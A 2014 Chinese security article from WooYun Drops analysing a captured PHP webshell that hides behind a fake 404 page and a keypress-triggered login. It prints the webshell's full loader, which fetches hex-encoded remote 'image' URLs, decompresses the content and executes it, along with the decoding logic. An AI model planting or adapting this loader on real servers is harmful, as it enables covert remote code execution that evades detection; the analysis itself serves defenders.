








# PHP 后门新玩法：一款猥琐的 PHP 后门分析

2014/03/19 16:46 | [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

近日，360 网站卫士安全团队近期捕获一个基于 PHP 实现的 webshell 样本，其巧妙的代码动态生成方式，猥琐的自身页面伪装手法，让我们在分析这个样本的过程中感受到相当多的乐趣。接下来就让我们一同共赏这个奇葩的 Webshell 吧。

## 0x01 细节

* * *

Webshell 代码如下：

```
<?php
error_reporting(0);
session_start();
header("Content-type:text/html;charset=utf-8");if(empty($_SESSION['api']))
$_SESSION['api']=substr(file_get_contents(
sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649);
@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null);
?>

```

关键看下面这句代码，

```
sprintf('%s?%s',pack("H*",'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())

```

这里执行之后其实是一张图片，解密出来的图片地址如下：

```
http://7shell.googlecode.com/svn/make.jpg?53280b00f1e85 
```

然后调用 file_get_contents 函数读取图片为字符串，然后 substr 取 3649 字节之后的内容，再调用 gzuncompress 解压，得到真正的代码。最后调用 preg_replace 的修饰符 e 来执行恶意代码的。这里执行以下语句来还原出恶意样本代码，

```
<?php
echo gzuncompress(substr(file_get_contents(sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649));
?>

```

如图所示：



分析这段代码，发现这是一个伪装的 404 木马(这里实在是太猥琐了…把页面标题改成 404 Not Found)，其实整个 webshell 就一个 class 外加三个 function，如下图：



首先我先看一下它的前端 html 代码，其中有这么一段 js 程序

```
document.onkeydown = function(e) {
var theEvent = window.event || e;
var code = theEvent.keyCode || theEvent.which;
if (80 == code) {
$("login").style.display = "block"
}
}

```

这里它用 document.onkeydown 获取用户敲击键盘事件，当 code 等于 80 的时候显示 login 这个 div，这里查询了一下 keyCode 的对照表，查到 80 对应 p 和 P 键



所以触发 webshell 登陆需要按 p 键(不按 P 键页面就是一个空白页，看不到登陆框)，如图所示：


再回到服务端 php 代码中，可以看到程序用的是对称加密，并且将登陆密码作为加密 key，代码如图所示：



再看 init()的逻辑



如图所示，先看这句代码

```
$true = @gzuncompress(gzuncompress(Crypt::decrypt(pack('H*', '789c63ac0bbec7b494f12cdb02f6dfac3f833731cf093e163a892990793ebf0a9f1c6b18bb68983b3b47a022002a840c59′), $_POST['key'], true)));

```

根据这个解密逻辑我们可以推出，这里其实是将字符串 true 做了以下加密处理，

```
unpack('H*',Crypt::encrypt(gzcompress(gzcompress('true')), $_POST['key'] , true))

```

所以当输入正确密码的时候@gzuncompress 返回字符串 true，然后程序调用 setcookie 给客户端返回$_COOKIE['key']，然后值得提一下的是后面这个`exit('{"status":"on"}')`，这里它与前端代码联系很紧密，我们看前端有个 callback 函数，如下

```
function callback() {
var json = eval("(" + this.responseText + ")");
if (json.status=='on'){
window.location.reload();
return;
}
if (json.notice) {
$("notice").style.display = "block";
$("notice").innerHTML = json.notice;
sideOut();
}
}

```

这里执行`exit('{"status":"on"}')`会返回 json 串`{"status":"on"}`，此时前端 js 代码 classback()获取到此响应会执行 window.location.reload()刷新，再次请求正好带上前面获取的 cookie，然后执行判断 COOKIE 的逻辑，如图所示：



这里跟前面 POST 的逻辑一样，下面当判断为'true'以后，这里又请求了一张图片，pack 出来地址为`http://2012heike.googlecode.com/svn/trunk/code.jpg`，然后调用 _REQUEST 获取图片内容，解密解压之后再 eval，分析之后发现 code.jpg 中才是真正的 webshell 经过加密压缩之后的内容。这里我跟踪了一下代码打印出了真正执行的 webshell 的内容：



登陆成功之后的 webshell 如下图：



## 0x02 总结

* * *

这是一个高度隐蔽的 webshell，它没有在其代码中用到一些危险函数和敏感字，而是将真正的 shell 内容经过层层加密处理之后保存到图片当中，丢到服务器上只留下一个 url，并且 url 还是经过加密处理的，所以对外看没有任何特征可寻，过掉了大多数 waf 以及杀软的查杀。。作者的利用思路新颖，并且前端后端结合紧密，代码精简，各种奇技淫巧，有别于常见的 webshell 后门，令人佩服！

from:[`blog.wangzhan.360.cn/?p=65`](http://blog.wangzhan.360.cn/?p=65)

版权声明：未经授权禁止转载 [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Json hijacking/Json 劫持漏洞](http://drops.wooyun.org/papers/42)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)
*   [Duo Security 研究人员对 PayPal 双重验证的绕过](http://drops.wooyun.org/papers/2502)
*   [OAuth 安全指南](http://drops.wooyun.org/papers/1989)